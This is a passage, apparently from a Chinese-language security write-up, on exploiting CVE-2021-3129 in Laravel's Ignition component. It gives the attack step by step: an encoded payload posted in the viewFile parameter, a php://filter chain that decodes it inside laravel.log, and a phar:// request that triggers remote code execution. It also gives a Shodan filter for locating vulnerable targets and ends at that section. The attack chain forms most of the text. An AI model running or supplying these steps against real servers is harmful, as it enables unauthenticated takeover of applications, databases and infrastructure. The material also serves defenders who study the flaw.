 有效负载应该是这样的:

```
"=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=4E=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=..."
```

并通过 post 请求发送有效负载:

```
data["parameters"]["viewFile"] = “=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=4E=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=...”
```

### **4。使用 PHP 过滤器解码有效载荷:**

```
data["parameters"]["viewFile"] = “php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log”
```

### **5。触发 RCE**

```
data["parameters"]["viewFile"] = “phar://../storage/logs/laravel.log”
```

## **易受攻击的 Laravel 版本**

据 [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-3129) 称，该漏洞影响 8.4.2 之前的 Laravel 框架和 2.5.2 之前的点火模式的所有版本。

## **CVE-2021-3129 的业务影响**

成功利用该漏洞后，未经验证的攻击者可以获得对目标的**控制，危害 Laravel 使用的所有服务和数据库，并暴露整个基础设施。**

## **如何找到易受 CVE 攻击的目标-2021-3129**

### **使用 Shodan**

使用带有过滤器 **http.html:Laravel** 的 Shodan 搜索引擎将为有动机的攻击者揭示更多潜在目标:
